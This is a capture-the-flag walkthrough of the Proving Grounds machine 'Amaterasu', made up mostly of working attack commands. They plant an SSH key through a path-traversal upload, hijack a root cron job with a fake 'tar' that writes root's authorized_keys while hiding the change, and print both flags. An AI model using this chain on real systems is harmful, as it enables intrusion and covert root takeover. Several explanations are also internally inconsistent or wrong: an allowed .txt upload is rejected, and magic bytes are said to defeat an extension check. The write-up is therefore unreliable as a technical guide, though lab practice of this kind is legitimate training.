





# Offensive Security Proving Grounds — Amaterasu | Full Walkthrough

> **Machine:** Amaterasu  
> **Difficulty:** Intermediate  
> **Author:** vodanhtieutot  
> **Platform:** Offensive Security Proving Grounds

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Network Scanning](#2-reconnaissance--network-scanning)
3. [Web Enumeration — Flask REST API Discovery](#3-web-enumeration--flask-rest-api-discovery)
4. [Web Application Analysis — File Upload Vulnerability](#4-web-application-analysis--file-upload-vulnerability)
5. [Initial Access — Path Traversal SSH Key Injection](#5-initial-access--path-traversal-ssh-key-injection)
6. [Foothold — SSH as User alfredo](#6-foothold--ssh-as-user-alfredo)
7. [Privilege Escalation — PATH Hijacking via Cron](#7-privilege-escalation--path-hijacking-via-cron)
8. [Root Access](#8-root-access)
9. [Flags & Answers Summary](#9-flags--answers-summary)
10. [Attack Chain Summary](#10-attack-chain-summary)
11. [Tools Used](#11-tools-used)

---

## 1. Overview

**Amaterasu** is an Intermediate-rated Linux machine on Offensive Security Proving Grounds featuring a Python Flask file upload API with path traversal vulnerabilities. The full attack path follows this chain:

```
Port Scan → Flask API Discovery → Path Traversal File Upload
→ SSH Key Injection → User Shell → Cron Script Enumeration
→ PATH Hijacking → Root Shell
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.217.249` |
| Machine Name | `fedora` |
| OS | Fedora Linux (Kernel 5.17.12-100.fc34.x86_64) |
| Open Ports | 21 (FTP), 25022 (SSH), 33414 (HTTP), 40080 (HTTP) |
| Attacker | Kali Linux (AttackBox) |
| Attacker IP | `192.168.45.172` |

---

## 2. Reconnaissance — Network Scanning

### 2.1 Initial Port Discovery

We start with a comprehensive TCP port scan using **RustScan** for maximum speed, followed by service detection with Nmap:

```bash
rustscan -a 192.168.217.249 -- -sV -sC
```


**Discovered Services:**

| Port | State | Service | Version |
|---|---|---|---|
| 21/tcp | open | ftp | vsftpd 3.0.3 |
| 25022/tcp | open | ssh | OpenSSH 8.7 (protocol 2.0) |
| 33414/tcp | open | http | Werkzeug/2.2.3 Python/3.9.13 |
| 40080/tcp | open | http | Apache httpd 2.4.53 (Fedora) |

**Key Observations:**
- **Port 21 (FTP)**: vsftpd 3.0.3 running, but anonymous login is likely disabled
- **Port 25022 (SSH)**: OpenSSH running on **non-standard port** instead of default port 22
- **Port 33414 (HTTP)**: Python Flask application using **Werkzeug** framework — this is unusual and worth investigating
- **Port 40080 (HTTP)**: Standard Apache web server on non-standard port

> The presence of a **Python Flask application** on port 33414 is highly interesting. Werkzeug is a WSGI utility library for Python, commonly used with Flask for development. This could indicate a custom web application or API endpoint.

---

### 2.2 Service Fingerprinting

Navigate to the Flask application on port 33414 in a web browser to identify what kind of service is running:

```
http://192.168.217.249:33414/
```



The application returns JSON with basic information:

```json
[
  "Python File Server REST API v2.5",
  "Author: Alfredo Moroder",
  "GET /help = List of the commands"
]
```

**Key Findings:**

| Detail | Value |
|---|---|
| Application Type | REST API for file operations |
| API Version | v2.5 |
| Author | Alfredo Moroder |
| Suggested Endpoint | `/help` for command listing |
| Response Format | JSON array |

> This is a **custom-built file server API** rather than a standard web application. The fact that it explicitly mentions "file server" and provides a `/help` endpoint suggests it has file upload/download capabilities — a prime target for exploitation.

---

## 3. Web Enumeration — Flask REST API Discovery

### 3.1 Exploring API Endpoints

Following the hint from the landing page, we query the `/help` endpoint to discover available API functionality:

```bash
curl http://192.168.217.249:33414/help
```


**Available API Endpoints:**

```json
[
  "GET /info : General Info",
  "GET /help : This listing",
  "GET /file-list?dir=/tmp : List of the files",
  "POST /file-upload : Upload files"
]
```

**Endpoint Analysis:**

| Endpoint | Method | Purpose | Parameters |
|---|---|---|---|
| `/info` | GET | Application information | None |
| `/help` | GET | List available commands | None |
| `/file-list` | GET | List directory contents | `dir` (directory path) |
| `/file-upload` | POST | Upload files to server | File data + filename |

> The `/file-list` endpoint with a `dir` parameter is immediately suspicious — it could allow **directory traversal** for reading arbitrary filesystem locations. The `/file-upload` endpoint is our primary attack surface for achieving file write capabilities.

---

### 3.2 Testing Directory Listing Functionality

Test the `/file-list` endpoint with different directory paths to check for path traversal vulnerabilities:

```bash
# Test with /etc directory
curl http://192.168.217.249:33414/file-list?dir=/etc

# Test with /home directory
curl http://192.168.217.249:33414/file-list?dir=/home

# Test with /root directory
curl http://192.168.217.249:33414/file-list?dir=/root
```



**Results:**
- `/etc` directory listing: **Success** — returns system configuration files
- `/home` directory listing: **Success** — reveals `/home/alfredo` user directory
- `/root` directory listing: **Access Denied** — requires elevated privileges

> The API successfully lists arbitrary directories without any path sanitization. This confirms **directory traversal for reading** exists. More importantly, we've discovered a user named **alfredo** with a home directory at `/home/alfredo`. This will be our target for the file upload attack.

---

## 4. Web Application Analysis — File Upload Vulnerability

### 4.1 Intercepting File Upload Requests

To understand the file upload mechanism, we capture a legitimate upload request using **Burp Suite**:

1. Navigate to the application in a browser
2. Configure Burp Suite as HTTP proxy
3. Attempt a file upload through the web interface
4. Intercept and analyze the POST request


**Request Structure:**

```http
POST /file-upload HTTP/1.1
Host: 192.168.217.249:33414
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

------WebKitFormBoundary...
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

[file content here]
------WebKitFormBoundary...
Content-Disposition: form-data; name="filename"

test.txt
------WebKitFormBoundary...
```

**Critical Parameters:**

| Parameter | Type | Purpose | User-Controlled? |
|---|---|---|---|
| `file` | Binary | File content to upload | ✓ Yes |
| `filename` | String | Destination file path | ✓ Yes (vulnerable!) |

> The `filename` parameter is **user-controlled** and appears to determine where the file will be saved on the server. This is a critical finding — if there's no path sanitization, we can use directory traversal sequences (`../`) to write files anywhere on the filesystem.

---

### 4.2 Testing File Type Validation

Attempt to upload a simple test file to understand what validation exists:

```bash
# Create test file
echo "test" > test.txt

# Upload via curl
curl -X POST \
  -F "file=@test.txt" \
  -F "filename=test.txt" \
  http://192.168.217.249:33414/file-upload
```

**Response:**

```json
{"message": "Allowed file types are txt, pdf, png, jpg, jpeg, gif"}
```

The API implements a **whitelist-based file extension validation**. Only specific file types are allowed:
- Text: `txt`
- Documents: `pdf`
- Images: `png`, `jpg`, `jpeg`, `gif`

> This extension whitelist can be bypassed using a common technique: **magic byte injection**. By prepending a valid file signature (e.g., PNG magic bytes) to our payload, the file will pass extension validation while still containing our actual content.

---

### 4.3 Analyzing the Vulnerability

Combining our findings, we have identified two critical vulnerabilities:

**Vulnerability #1: Path Traversal in File Upload**
- The `filename` parameter is not sanitized
- No filtering of `../` directory traversal sequences
- Allows writing files to arbitrary filesystem locations

**Vulnerability #2: Weak MIME Type Validation**
- Only checks file extension, not actual file content
- Bypassable with magic byte prepending
- Does not verify file integrity or type

**Exploitation Strategy:**

```
1. Generate SSH key pair (id_rsa + id_rsa.pub)
2. Prepend PNG magic bytes to public key
3. Upload with filename="../../../home/alfredo/.ssh/authorized_keys"
4. SSH into system as user alfredo
```

---

## 5. Initial Access — Path Traversal SSH Key Injection

### 5.1 Generating SSH Keys

On our Kali attack machine, generate an RSA key pair:

```bash
ssh-keygen -t rsa -b 2048 -f my_key -N ''
```

**Parameters explained:**
- `-t rsa`: Use RSA algorithm
- `-b 2048`: 2048-bit key length
- `-f my_key`: Output filename (creates `my_key` and `my_key.pub`)
- `-N ''`: Empty passphrase for automated authentication

This creates two files:
- `my_key` — Private key (keep secret!)
- `my_key.pub` — Public key (to inject into target)

---

### 5.2 Crafting the Exploit Payload

Create a fake PNG file containing our SSH public key:

```bash
# PNG file signature (magic bytes): 89 50 4E 47 0D 0A 1A 0A
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > authorized_keys

# Append SSH public key
cat my_key.pub >> authorized_keys
```

**Why this works:**
1. The PNG header (`\x89PNG\r\n\x1A\n`) makes the file appear as a valid PNG image to extension-based validators
2. SSH's `authorized_keys` parser **ignores non-SSH-key data** at the beginning of the file
3. It reads the first valid SSH public key found in the file

**File structure:**

```
[PNG magic bytes: 8 bytes]
[SSH public key: ~400-600 bytes]
```

---

### 5.3 Uploading via Path Traversal

Upload the crafted file with a path-traversed filename to write directly to alfredo's `.ssh/authorized_keys`:

```bash
curl -X POST \
  -F "file=@authorized_keys" \
  -F "filename=../../../../../../../../home/alfredo/.ssh/authorized_keys" \
  http://192.168.217.249:33414/file-upload
```



**Response:**

```json
{"message":"File successfully uploaded"}
```

**What happened on the server:**

```
1. API receives file with PNG extension (passes validation)
2. filename="../../../home/alfredo/.ssh/authorized_keys" is NOT sanitized
3. Server resolves path: /tmp/../../../home/alfredo/.ssh/authorized_keys
                        = /home/alfredo/.ssh/authorized_keys
4. File is written to /home/alfredo/.ssh/authorized_keys
5. SSH key injection complete!
```

> The upload succeeded! Our SSH public key is now in alfredo's `authorized_keys` file. The server likely created the `.ssh` directory automatically if it didn't exist, as many file upload implementations handle parent directory creation.

---

## 6. Foothold — SSH as User alfredo

### 6.1 SSH Authentication with Injected Key

Authenticate to the target using our private key on the non-standard SSH port 25022:

```bash
# Set correct permissions on private key (SSH requires 600)
chmod 600 my_key

# Connect via SSH
ssh -i my_key alfredo@192.168.217.249 -p 25022
```


```bash
[alfredo@fedora ~]$ id
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)

[alfredo@fedora ~]$ hostname
fedora

[alfredo@fedora ~]$ uname -a
Linux fedora 5.17.12-100.fc34.x86_64 #1 SMP PREEMPT Mon May 30 17:47:02 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

**Environment Details:**

| Property | Value |
|---|---|
| User | alfredo (UID 1000) |
| Home Directory | /home/alfredo |
| Shell | /bin/bash |
| OS | Fedora Linux |
| Kernel | 5.17.12-100.fc34.x86_64 |
| Architecture | x86_64 |

> We have successfully obtained a shell as user **alfredo**! This is a standard user account with no elevated privileges yet.

---

### 6.2 Capturing the User Flag

```bash
[alfredo@fedora ~]$ ls -la
total 20
drwx------. 4 alfredo alfredo  127 Mar 28  2023 .
drwxr-xr-x. 3 root    root      21 Mar 28  2023 ..
-rw-------. 1 alfredo alfredo 3944 Mar 28  2023 .bash_history
-rw-r--r--. 1 alfredo alfredo   18 Jan 25  2021 .bash_logout
-rw-r--r--. 1 alfredo alfredo  141 Jan 25  2021 .bash_profile
-rw-r--r--. 1 alfredo alfredo  492 Jan 25  2021 .bashrc
-rwx------. 1 alfredo alfredo   33 Apr  2 02:29 local.txt
drwxr-xr-x. 3 alfredo alfredo   54 Mar 28  2023 restapi
drwx------. 2 alfredo alfredo   61 Apr  2 03:16 .ssh

[alfredo@fedora ~]$ cat local.txt
3b99fbdc6d430bfb51c72c651a261927
```

> 🚩 **User Flag:** `3b99fbdc6d430bfb51c72c651a261927`

---

### 6.3 Initial Privilege Enumeration

Check for common privilege escalation vectors:

```bash
# Check sudo privileges
[alfredo@fedora ~]$ sudo -l
[sudo] password for alfredo:
```

We don't have alfredo's password, so we cannot use `sudo` commands.

```bash
# Check for unusual SUID binaries
[alfredo@fedora ~]$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/sudo
/usr/bin/passwd
# ... standard binaries, nothing unusual
```

All SUID binaries appear to be standard system utilities. We need to dig deeper for privilege escalation opportunities.

---

## 7. Privilege Escalation — PATH Hijacking via Cron

### 7.1 Automated Enumeration with LinPEAS

Since manual enumeration is time-consuming, we'll use **LinPEAS** (Linux Privilege Escalation Awesome Script) for comprehensive automated scanning. However, the target cannot reach external networks, so we'll upload LinPEAS via the same file upload API vulnerability.

**On Kali:**

```bash
# Navigate to LinPEAS location
cd /usr/share/peass/linpeas/

# Create fake PNG with LinPEAS script
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > linpeas.png
cat linpeas.sh >> linpeas.png

# Upload to /tmp
curl -X POST \
  -F "file=@linpeas.png" \
  -F "filename=linpeas.sh" \
  http://192.168.217.249:33414/file-upload
```

**On target (via SSH):**

```bash
[alfredo@fedora ~]$ chmod +x /tmp/linpeas.sh
[alfredo@fedora ~]$ /tmp/linpeas.sh
```


---

### 7.2 Critical Findings from LinPEAS

LinPEAS highlights several interesting findings, but two stand out as immediately exploitable:

**Finding #1: Writable Directories in PATH**

```
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/alfredo/.local/bin:/home/alfredo/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin
```

LinPEAS identifies that `/home/alfredo/.local/bin` and `/home/alfredo/bin` are:
- **User-writable** (alfredo has full permissions)
- **Prepended to PATH** (searched before system directories)

> If any privileged script calls a command without using an absolute path (e.g., `tar` instead of `/usr/bin/tar`), and that command name exists in `/home/alfredo/.local/bin`, the user-controlled binary will execute instead of the system binary.

**Finding #2: Root Cron Job**

```bash
[alfredo@fedora ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

*/1 * * * * root /usr/local/bin/backup-flask.sh
```

A backup script executes **every minute** as **root**:

| Property | Value |
|---|---|
| Schedule | `*/1 * * * *` (every 1 minute) |
| User | root |
| Script Path | `/usr/local/bin/backup-flask.sh` |
| Shell | /bin/bash |

> A script running as root every minute is a **prime privilege escalation target**. If we can influence its execution in any way, we gain root access.

---

### 7.3 Analyzing the Backup Script

Examine the cron-executed script for vulnerabilities:

```bash
[alfredo@fedora ~]$ ls -la /usr/local/bin/backup-flask.sh
-rwxr-xr-x. 1 root root 106 Mar 28  2023 /usr/local/bin/backup-flask.sh

[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
```


**Script Content:**

```bash
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

**Line-by-Line Analysis:**

| Line | Code | Security Impact |
|---|---|---|
| 1 | `#!/bin/sh` | Shebang — script runs with /bin/sh |
| 2 | `export PATH="/home/alfredo/restapi:$PATH"` | ⚠️ **CRITICAL**: Prepends user-writable directory to PATH |
| 3 | `cd /home/alfredo/restapi` | Changes to user-controlled directory |
| 4 | `tar czf /tmp/flask.tar.gz *` | ⚠️ **CRITICAL**: Calls `tar` without absolute path |

**Vulnerability Explanation:**

```
When the script runs as root:
1. Line 2: PATH="/home/alfredo/restapi:/sbin:/bin:/usr/sbin:/usr/bin"
2. Line 4: System searches for "tar" binary in PATH order:
   ① /home/alfredo/restapi/tar    ← User-controlled!
   ② /sbin/tar                     ← Standard location
   ③ /bin/tar
   ④ /usr/bin/tar

If /home/alfredo/restapi/tar exists → ROOT executes OUR CODE!
```

> This is a textbook **PATH hijacking** vulnerability. The script modifies PATH to include a user-writable directory **before** calling a command without an absolute path. We can create a malicious `tar` binary that will execute as root.

---

### 7.4 Crafting the Privilege Escalation Exploit

Create a malicious `tar` binary in `/home/alfredo/restapi/`:

```bash
[alfredo@fedora ~]$ cd /home/alfredo/restapi

[alfredo@fedora restapi]$ cat > tar << 'EOF'
#!/bin/bash
# This script executes as ROOT when cron triggers

# Create /root/.ssh directory if it doesn't exist
mkdir -p /root/.ssh

# Copy alfredo's authorized_keys to root
cat /home/alfredo/.ssh/authorized_keys > /root/.ssh/authorized_keys

# Set proper SSH permissions (required for SSH to accept the key)
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys

# Execute the real tar to complete the backup (stealth)
/usr/bin/tar "$@"
EOF

[alfredo@fedora restapi]$ chmod +x tar
```


**Exploit Breakdown:**

1. **Create `/root/.ssh/`**: Ensures the directory exists
2. **Copy SSH key**: Overwrites root's `authorized_keys` with our public key
3. **Set permissions**: 
   - `700` on `.ssh` directory (rwx for owner only)
   - `600` on `authorized_keys` file (rw- for owner only)
   - These permissions are **mandatory** — SSH refuses keys with incorrect permissions
4. **Call real tar**: Executes `/usr/bin/tar` with original arguments (`"$@"`) to complete the backup normally and avoid detection

> The script maintains **stealth** by actually performing the intended backup. To an administrator reviewing logs, the cron job appears to execute successfully.

---

### 7.5 Triggering the Exploit

The cron job runs every minute on the **00 second** mark. We simply wait for the next execution:

```bash
[alfredo@fedora restapi]$ date
Thu Apr  2 03:41:29 AM EDT 2026

# Current time: 03:41:29
# Next cron execution: 03:42:00
# Wait approximately 31 seconds...
```



After approximately one minute, verify the cron job executed:

```bash
[alfredo@fedora restapi]$ ls -la /tmp/flask.tar.gz
-rw-r--r-- 1 root root 1408 Apr  2 03:42 /tmp/flask.tar.gz
```

The backup file shows modification time of **03:42**, confirming the cron job executed successfully. Our malicious `tar` binary ran as root and injected our SSH key into `/root/.ssh/authorized_keys`.

---

## 8. Root Access

### 8.1 SSH as Root

From our Kali attack machine, authenticate as root using the same private key:

```bash
ssh -i my_key root@192.168.217.249 -p 25022
```



```bash
[root@fedora ~]# id
uid=0(root) gid=0(root) groups=0(root)

[root@fedora ~]# whoami
root

[root@fedora ~]# hostname
fedora
```

> 🎯 **Root Shell Achieved!** We have escalated from user alfredo (UID 1000) to root (UID 0).

---

### 8.2 Capturing the Root Flag

```bash
[root@fedora ~]# pwd
/root

[root@fedora ~]# ls -la
total 24
dr-xr-x---.  3 root root  143 Mar 28  2023 .
dr-xr-xr-x. 18 root root  235 Mar 28  2023 ..
-rw-------.  1 root root 3944 Mar 28  2023 .bash_history
-rw-r--r--.  1 root root   18 Jan 25  2021 .bash_logout
-rw-r--r--.  1 root root  141 Jan 25  2021 .bash_profile
-rw-r--r--.  1 root root  492 Jan 25  2021 .bashrc
-rwx------.  1 root root   33 Apr  2 02:29 proof.txt
drwx------.  2 root root   61 Apr  2 03:42 .ssh

[root@fedora ~]# cat proof.txt
7958b569565d7bd88d10c6f22d1c4063
```


> 🚩 **Root Flag:** `7958b569565d7bd88d10c6f22d1c4063`

---

## 9. Flags & Answers Summary

| Flag | Location | Hash |
|---|---|---|
| **User Flag** | `/home/alfredo/local.txt` | `3b99fbdc6d430bfb51c72c651a261927` |
| **Root Flag** | `/root/proof.txt` | `7958b569565d7bd88d10c6f22d1c4063` |

---

## 10. Attack Chain Summary

```
[1] Port Scan (RustScan + Nmap)
    → Ports: 21 (FTP), 25022 (SSH), 33414 (Flask API), 40080 (Apache)
    → Target identified: Flask File Server API on port 33414

[2] API Endpoint Discovery
    → GET /info: Application information
    → GET /help: Command listing
    → GET /file-list?dir=<path>: Directory traversal (read)
    → POST /file-upload: File upload functionality

[3] Vulnerability Analysis
    → Path Traversal in filename parameter (no sanitization)
    → Extension-based validation (bypassable with magic bytes)
    → Exploitation vector: Write to /home/alfredo/.ssh/authorized_keys

[4] SSH Key Generation
    → ssh-keygen -t rsa -b 2048 -f my_key -N ''
    → Creates my_key (private) and my_key.pub (public)

[5] Payload Crafting
    → printf '\x89PNG...' > authorized_keys (PNG magic bytes)
    → cat my_key.pub >> authorized_keys (append SSH key)
    → File passes extension validation but contains valid SSH key

[6] Path Traversal Upload
    → curl -F "file=@authorized_keys" \
           -F "filename=../../../../home/alfredo/.ssh/authorized_keys"
    → Server writes to /home/alfredo/.ssh/authorized_keys
    → SSH key injection successful

[7] Initial Access
    → ssh -i my_key alfredo@192.168.217.249 -p 25022
    → Shell as user alfredo (UID 1000)
    → User flag: 3b99fbdc6d430bfb51c72c651a261927 ✓

[8] Privilege Escalation Enumeration
    → Upload LinPEAS via file upload API
    → Automated scanning reveals:
       - Writable PATH directories: /home/alfredo/.local/bin
       - Root cron job: */1 * * * * root /usr/local/bin/backup-flask.sh

[9] Cron Script Analysis
    → cat /usr/local/bin/backup-flask.sh
    → Vulnerability identified:
       - export PATH="/home/alfredo/restapi:$PATH" (PATH injection)
       - tar czf ... (calls tar without absolute path)

[10] PATH Hijacking Exploit
    → Create malicious tar binary: /home/alfredo/restapi/tar
    → Script copies SSH key to /root/.ssh/authorized_keys
    → Executes /usr/bin/tar to maintain stealth

[11] Exploitation Trigger
    → Cron executes every minute (*/1 * * * *)
    → Wait for next execution (~30-60 seconds)
    → Malicious tar runs as root
    → SSH key injected into root's authorized_keys

[12] Root Access
    → ssh -i my_key root@192.168.217.249 -p 25022
    → Shell as root (UID 0)
    → Root flag: 7958b569565d7bd88d10c6f22d1c4063 ✓
```

---

## 11. Tools Used

| Tool | Purpose |
|---|---|
| `rustscan` | Fast port scanning |
| `nmap` | Service version detection & script scanning |
| `curl` | HTTP API interaction & exploitation |
| `ssh-keygen` | RSA key pair generation |
| `ssh` | Remote shell access |
| LinPEAS | Automated privilege escalation enumeration |
| Burp Suite | HTTP request interception & analysis |
| `printf` | Binary data creation (magic bytes) |
| `cat` | File concatenation |
| `chmod` | File permission modification |
